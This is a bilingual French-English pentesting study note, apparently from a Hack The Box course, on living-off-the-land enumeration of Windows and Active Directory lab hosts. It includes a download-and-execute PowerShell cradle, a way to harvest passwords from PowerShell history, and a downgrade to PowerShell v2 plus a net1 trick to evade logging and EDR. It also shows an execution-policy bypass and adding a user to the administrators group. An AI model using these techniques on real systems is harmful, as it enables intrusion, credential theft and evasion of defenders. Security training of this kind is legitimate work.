





# Living off the Land Enumeration

Cette approche est plus discrète et génère moins de journaux et d'alertes par rapport à l'importation d'outils externes, ce qui est crucial dans des environnements surveillés par des IDS/IPS, des firewalls et des solutions EDR.

***

## <mark style="color:red;">Env Commands For Host & Network Recon</mark>

### <mark style="color:blue;">**Basic Enumeration Commands**</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><strong>Command</strong></td><td><strong>Result</strong></td></tr><tr><td><code>hostname</code></td><td>Prints the PC's Name</td></tr><tr><td><code>[System.Environment]::OSVersion.Version</code></td><td>Prints out the OS version and revision level</td></tr><tr><td><code>wmic qfe get Caption,Description,HotFixID,InstalledOn</code></td><td>Prints the patches and hotfixes applied to the host</td></tr><tr><td><code>ipconfig /all</code></td><td>Prints out network adapter state and configurations</td></tr><tr><td><code>set</code></td><td>Displays a list of environment variables for the current session (ran from CMD-prompt)</td></tr><tr><td><code>echo %USERDOMAIN%</code></td><td>Displays the domain name to which the host belongs (ran from CMD-prompt)</td></tr><tr><td><code>echo %logonserver%</code></td><td>Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)</td></tr></tbody></table>

<mark style="color:green;">**Basic Enumeration**</mark>

<figure><figcaption></figcaption></figure>

The commands above will give us a quick initial picture of the state the host is in, as well as some basic networking and domain information. We can cover the information above with one command [systeminfo](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo).

<mark style="color:green;">**Systeminfo**</mark>

<figure><figcaption></figcaption></figure>

***

## <mark style="color:red;">Harnessing PowerShell</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><strong>Cmd-Let</strong></td><td><strong>Description</strong></td></tr><tr><td><code>Get-Module</code></td><td>Lists available modules loaded for use.</td></tr><tr><td><code>Get-ExecutionPolicy -List</code></td><td>La commande <code>Get-ExecutionPolicy -List</code> est utilisée dans PowerShell pour <strong>vérifier les politiques d'exécution</strong> qui régissent la façon dont les scripts PowerShell peuvent être exécutés sur un système. Elle affiche la politique d'exécution actuelle pour différents niveaux (comme la machine locale, l'utilisateur, etc.).</td></tr><tr><td><code>Set-ExecutionPolicy Bypass -Scope Process</code></td><td>This will change the policy for our current process using the <code>-Scope</code> parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.</td></tr><tr><td><code>Get-ChildItem Env: | ft Key,Value</code></td><td>Return environment values such as key paths, users, computer information, etc.</td></tr><tr><td><p><code>Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline</code></p><p><code>\ConsoleHost_history.txt</code></p></td><td>With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.</td></tr><tr><td><code>powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); &#x3C;follow-on commands>"</code></td><td>This is a quick and easy way to download a file from the web using PowerShell and call it from memory.</td></tr></tbody></table>

<mark style="color:green;">**Quick Checks Using PowerShell**</mark>


```powershell-session
PS C:\htb> Get-Module
-----------------------------
PS C:\htb> Get-ExecutionPolicy -List
------------------------------
PS C:\htb> whoami
-------------------------------
PS C:\htb> Get-ChildItem Env: | ft key,value
```


We have performed basic enumeration of the host. Now, let's discuss a few operational security tactics.


Many defenders are unaware that several versions of PowerShell often exist on a host. If not uninstalled, they can still be used. Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. This is a great way for us to remain under the defenders' radar while still utilizing resources built into the hosts to our advantage. Below is an example of downgrading Powershell.


<mark style="color:green;">**Downgrade Powershell**</mark>


```powershell-session
PS C:\htb> Get-host
-------------------------------------
PS C:\htb> powershell.exe -version 2
-------------------------------------
PS C:\htb> Get-host
-------------------------------------
PS C:\htb> get-module
```


L’endroit principal à vérifier est le journal **PowerShell Operational Log**, situé sous :\
📂 **Applications and Services Logs > Microsoft > Windows > PowerShell > Operational**.

🔹 **Tous les commandes exécutées** dans notre session seront enregistrées dans ce fichier.

Le journal **Windows PowerShell**, situé sous :\
📂 **Applications and Services Logs > Windows PowerShell**,\
est également une bonne source d’information.

🔹 **Une entrée sera créée à chaque fois qu’une instance de PowerShell est lancée**.

Dans l’image mentionnée, on peut voir les **entrées rouges** dans le journal, correspondant aux commandes exécutées.

<mark style="color:green;">**Examining the Powershell Event Log**</mark>

<figure><figcaption></figcaption></figure>

With [Script Block Logging](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.2) enabled, we can see that whatever we type into the terminal gets sent to this log. If we downgrade to PowerShell V2, this will no longer function correctly. Our actions after will be masked since Script Block Logging does not work below PowerShell 3.0. Notice above in the logs that we can see the commands we issued during a normal shell session, but it stopped after starting a new PowerShell instance in version 2. Be aware that the action of issuing the command `powershell.exe -version 2` within the PowerShell session will be logged. So evidence will be left behind showing that the downgrade happened, and a suspicious or vigilant defender may start an investigation after seeing this happen and the logs no longer filling up for that instance. We can see an example of this in the image below. Items in the red box are the log entries before starting the new instance, and the info in green is the text showing a new PowerShell session was started in HostVersion 2.0.

<mark style="color:green;">**Starting V2 Logs**</mark>

<figure><figcaption></figcaption></figure>

***

## <mark style="color:red;">Checking Defenses</mark>

The next few commands utilize the [netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) and [sc](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-query) utilities to help us get a feel for the state of the host when it comes to Windows Firewall settings and to check the status of Windows Defender.

<mark style="color:green;">**Firewall Checks**</mark>


```powershell-session
PS C:\htb> netsh advfirewall show allprofiles
```


<mark style="color:green;">**Windows Defender Check (from CMD.exe)**</mark>


```cmd-session
C:\htb> sc query windefend
```


Above, we checked if Defender was running. Below we will check the status and configuration settings with the [Get-MpComputerStatus](https://docs.microsoft.com/en-us/powershell/module/defender/get-mpcomputerstatus?view=windowsserver2022-ps) cmdlet in PowerShell.

<mark style="color:green;">**Get-MpComputerStatus**</mark>

```powershell-session
PS C:\htb> Get-MpComputerStatus
```

***

## <mark style="color:red;">Am I Alone?</mark>

When landing on a host for the first time, one important thing is to check and see if you are the only one logged in. If you start taking actions from a host someone else is on, there is the potential for them to notice you. If a popup window launches or a user is logged out of their session, they may report these actions or change their password, and we could lose our foothold.

<mark style="color:green;">**Using qwinsta**</mark>

```powershell-session
PS C:\htb> qwinsta

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
>console           forend                    1  Active
 rdp-tcp                                 65536  Listen
```

Now that we have a solid feel for the state of our host, we can enumerate the network settings for our host and identify any potential domain machines or services we may want to target next.

***

## <mark style="color:red;">Network Information</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><strong>Networking Commands</strong></td><td><strong>Description</strong></td></tr><tr><td><code>arp -a</code></td><td>Lists all known hosts stored in the arp table.</td></tr><tr><td><code>ipconfig /all</code></td><td>Prints out adapter settings for the host. We can figure out the network segment from here.</td></tr><tr><td><code>route print</code></td><td>Displays the routing table (IPv4 &#x26; IPv6) identifying known networks and layer three routes shared with the host.</td></tr><tr><td><code>netsh advfirewall show allprofiles</code></td><td>Displays the status of the host's firewall. We can determine if it is active and filtering traffic.</td></tr></tbody></table>

<mark style="color:green;">**Using arp -a**</mark>

```powershell-session
PS C:\htb> arp -a
```

<mark style="color:green;">**Viewing the Routing Table**</mark>

```powershell-session
PS C:\htb> route print
```

Using `arp -a` and `route print` will not only benefit in enumerating AD environments, but will also assist us in identifying opportunities to pivot to different network segments in any environment. These are commands we should consider using on each engagement to assist our clients in understanding where an attacker may attempt to go following initial compromise.

***

## <mark style="color:red;">Windows Management Instrumentation (WMI)</mark>

**Windows Management Instrumentation (WMI)** est un moteur de script largement utilisé dans les environnements Windows d’entreprise. Il permet de **récupérer des informations** et d’exécuter des **tâches administratives** sur des machines locales et distantes.

Dans notre cas, nous allons utiliser **WMI** pour générer un **rapport** contenant des informations sur :\
🔹 **Les utilisateurs** du domaine\
🔹 **Les groupes** du domaine\
🔹 **Les processus** en cours d’exécution\
🔹 **D’autres données** provenant de notre machine et des autres machines du domaine.

<mark style="color:green;">**Quick WMI checks**</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><strong>Command</strong></td><td><strong>Description</strong></td></tr><tr><td><code>wmic qfe get Caption,Description,HotFixID,InstalledOn</code></td><td>Prints the patch level and description of the Hotfixes applied</td></tr><tr><td><code>wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List</code></td><td>Displays basic host information to include any attributes within the list</td></tr><tr><td><code>wmic process list /format:list</code></td><td>A listing of all processes on host</td></tr><tr><td><code>wmic ntdomain list /format:list</code></td><td>Displays information about the Domain and Domain Controllers</td></tr><tr><td><code>wmic useraccount list /format:list</code></td><td>Displays information about all local accounts and any domain accounts that have logged into the device</td></tr><tr><td><code>wmic group list /format:list</code></td><td>Information about all local groups</td></tr><tr><td><code>wmic sysaccount list /format:list</code></td><td>Dumps information about any system accounts that are being used as service accounts.</td></tr></tbody></table>

Below we can see information about the domain and the child domain, and the external forest that our current domain has a trust with. This [cheatsheet](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4) has some useful commands for querying host and domain info using wmic.


```powershell-session
PS C:\htb> wmic ntdomain get Caption,Description,DnsForestName,DomainName,DomainControllerAddress

Caption          Description      DnsForestName           DomainControllerAddress  DomainName
ACADEMY-EA-MS01  ACADEMY-EA-MS01
INLANEFREIGHT    INLANEFREIGHT    INLANEFREIGHT.LOCAL     \\172.16.5.5             INLANEFREIGHT
LOGISTICS        LOGISTICS        INLANEFREIGHT.LOCAL     \\172.16.5.240           LOGISTICS
FREIGHTLOGISTIC  FREIGHTLOGISTIC  FREIGHTLOGISTICS.LOCAL  \\172.16.5.238           FREIGHTLOGISTIC
```


***

## <mark style="color:red;">Net Commands</mark>

[Net](https://docs.microsoft.com/en-us/windows/win32/winsock/net-exe-2) commands can be beneficial to us when attempting to enumerate information from the domain. These commands can be used to query the local host and remote hosts, much like the capabilities provided by WMI. We can list information such as:

* Local and domain users
* Groups
* Hosts
* Specific users in groups
* Domain Controllers
* Password requirements


Keep in mind that `net.exe` commands are typically monitored by EDR solutions and can quickly give up our location if our assessment has an evasive component. Some organizations will even configure their monitoring tools to throw alerts if certain commands are run by users in specific OUs, such as a Marketing Associate's account running commands such as `whoami`, and `net localgroup administrators`, etc. This could be an obvious red flag to anyone monitoring the network heavily.


<mark style="color:green;">**Table of Useful Net Commands**</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><strong>Command</strong></td><td><strong>Description</strong></td></tr><tr><td><code>net accounts</code></td><td>Information about password requirements</td></tr><tr><td><code>net accounts /domain</code></td><td>Password and lockout policy</td></tr><tr><td><code>net group /domain</code></td><td>Information about domain groups</td></tr><tr><td><code>net group "Domain Admins" /domain</code></td><td>List users with domain admin privileges</td></tr><tr><td><code>net group "domain computers" /domain</code></td><td>List of PCs connected to the domain</td></tr><tr><td><code>net group "Domain Controllers" /domain</code></td><td>List PC accounts of domains controllers</td></tr><tr><td><code>net group &#x3C;domain_group_name> /domain</code></td><td>User that belongs to the group</td></tr><tr><td><code>net groups /domain</code></td><td>List of domain groups</td></tr><tr><td><code>net localgroup</code></td><td>All available groups</td></tr><tr><td><code>net localgroup administrators /domain</code></td><td>List users that belong to the administrators group inside the domain (the group <code>Domain Admins</code> is included here by default)</td></tr><tr><td><code>net localgroup Administrators</code></td><td>Information about a group (admins)</td></tr><tr><td><code>net localgroup administrators [username] /add</code></td><td>Add user to administrators</td></tr><tr><td><code>net share</code></td><td>Check current shares</td></tr><tr><td><code>net user &#x3C;ACCOUNT_NAME> /domain</code></td><td>Get information about a user within the domain</td></tr><tr><td><code>net user /domain</code></td><td>List all users of the domain</td></tr><tr><td><code>net user %username%</code></td><td>Information about the current user</td></tr><tr><td><code>net use x: \computer\share</code></td><td>Mount the share locally</td></tr><tr><td><code>net view</code></td><td>Get a list of computers</td></tr><tr><td><code>net view /all /domain[:domainname]</code></td><td>Shares on the domains</td></tr><tr><td><code>net view \computer /ALL</code></td><td>List shares of a computer</td></tr><tr><td><code>net view /domain</code></td><td>List of PCs of the domain</td></tr></tbody></table>

<mark style="color:green;">**Listing Domain Groups**</mark>

```powershell-session
PS C:\htb> net group /domain
```

We can see above the `net group` command provided us with a list of groups within the domain.

<mark style="color:green;">**Information about a Domain User**</mark>

```powershell-session
PS C:\htb> net user /domain wrouse
```

<mark style="color:green;">**Net Commands Trick**</mark>


If you believe the network defenders are actively logging/looking for any commands out of the normal, you can try this workaround to using net commands. Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string.


<mark style="color:green;">**Running Net1 Command**</mark>

<figure><figcaption></figcaption></figure>

***

## <mark style="color:red;">Dsquery</mark>

[Dsquery](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc732952\(v=ws.11\)) is a helpful command-line tool that can be utilized to find Active Directory objects.  But, it is a likely tool that domain sysadmins are utilizing in their environment. With that in mind, `dsquery` will exist on any host with the `Active Directory Domain Services Role` installed, and the `dsquery` DLL exists on all modern Windows systems by default now and can be found at `C:\Windows\System32\dsquery.dll`.

<mark style="color:green;">**Dsquery DLL**</mark>

All we need is elevated privileges on a host or the ability to run an instance of Command Prompt or PowerShell from a `SYSTEM` context. Below, we will show the basic search function with `dsquery` and a few helpful search filters.

<mark style="color:green;">**User Search**</mark>

<pre class="language-powershell-session" data-full-width="true"><code class="lang-powershell-session"><strong>PS C:\htb> dsquery user
</strong></code></pre>

<mark style="color:green;">**Computer Search**</mark>


```powershell-session
PS C:\htb> dsquery computer
```


We can use a [dsquery wildcard search](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754232\(v=ws.11\)) to view all objects in an OU, for example.

<mark style="color:green;">**Wildcard Search**</mark>

```powershell-session
PS C:\htb> dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
```

We can, of course, combine `dsquery` with LDAP search filters of our choosing. The below looks for users with the `PASSWD_NOTREQD` flag set in the `userAccountControl` attribute.

<mark style="color:green;">**Users With Specific Attributes Set (PASSWD\_NOTREQD)**</mark>


```powershell-session
PS C:\htb> dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
```


The below search filter looks for all Domain Controllers in the current domain, limiting to five results.

<mark style="color:green;">**Searching for Domain Controllers**</mark>


```powershell-session
PS C:\Users\forend.INLANEFREIGHT> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName

```


## <mark style="color:red;">LDAP Filtering Explained</mark>

You will notice in the queries above that we are using strings such as `userAccountControl:1.2.840.113556.1.4.803:=8192`. These strings are common LDAP queries that can be used with several different tools too, including AD PowerShell, ldapsearch, and many others. Let's break them down quickly:

`userAccountControl:1.2.840.113556.1.4.803:` Specifies that we are looking at the [User Account Control (UAC) attributes](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) for an object. This portion can change to include three different values we will explain below when searching for information in AD (also known as [Object Identifiers (OIDs)](https://ldap.com/ldap-oid-reference-guide/).\
`=8192` represents the decimal bitmask we want to match in this search. This decimal number corresponds to a corresponding UAC Attribute flag that determines if an attribute like `password is not required` or `account is locked` is set. These values can compound and make multiple different bit entries. Below is a quick list of potential values.

<mark style="color:green;">**UAC Values**</mark>

<figure><figcaption></figcaption></figure>

<mark style="color:green;">**OID match strings**</mark>

OIDs are rules used to match bit values with attributes, as seen above. For LDAP and AD, there are three main matching rules:

1. `1.2.840.113556.1.4.803`

When using this rule as we did in the example above, we are saying the bit value must match completely to meet the search requirements. Great for matching a singular attribute.

2. `1.2.840.113556.1.4.804`

When using this rule, we are saying that we want our results to show any attribute match if any bit in the chain matches. This works in the case of an object having multiple attributes set.

3. `1.2.840.113556.1.4.1941`

This rule is used to match filters that apply to the Distinguished Name of an object and will search through all ownership and membership entries.

<mark style="color:green;">**Logical Operators**</mark>

When building out search strings, we can utilize logical operators to combine values for the search. The operators `&` `|` and `!` are used for this purpose. For example we can combine multiple [search criteria](https://learn.microsoft.com/en-us/windows/win32/adsi/search-filter-syntax) with the `& (and)` operator like so:\
`(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=64))`

The above example sets the first criteria that the object must be a user and combines it with searching for a UAC bit value of 64 (Password Can't Change). A user with that attribute set would match the filter. You can take this even further and combine multiple attributes like `(&(1) (2) (3))`. The `!` (not) and `|` (or) operators can work similarly. For example, our filter above can be modified as follows:\
`(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=64))`

This would search for any user object that does `NOT` have the Password Can't Change attribute set. When thinking about users, groups, and other objects in AD, our ability to search with LDAP queries is pretty extensive.

A lot can be done with UAC filters, operators, and attribute matching with OID rules. For now, this general explanation should be sufficient to cover this module. For more information and a deeper dive into using this type of filter searching, see the [Active Directory LDAP](https://academy.hackthebox.com/course/preview/active-directory-ldap) module.

***
